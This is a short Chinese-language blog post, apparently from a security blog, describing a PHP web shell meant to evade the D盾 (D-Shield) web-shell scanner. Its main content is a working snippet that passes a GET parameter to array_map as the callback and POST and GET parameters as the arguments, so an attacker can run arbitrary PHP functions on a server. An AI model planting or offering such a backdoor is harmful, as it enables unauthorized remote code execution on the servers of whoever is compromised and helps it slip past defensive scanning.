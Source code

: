```yaml
---
title: "PHP Bypass D盾"
date: 2018-02-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php','bypass']
categories: ['web','bypass']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


PHP Bypass D盾

<!--more-->

**原理**

通过 array_map 对 GET 的参数进行回调, 其中 1 为回调函数, 2 和 3 分别为在回调函数内的 POST 和 GET 参数

```
<?php

@$a = array($_POST['2'],$_GET['3']);
@array_map($b=$_GET['1'],$c=$a);

?>
```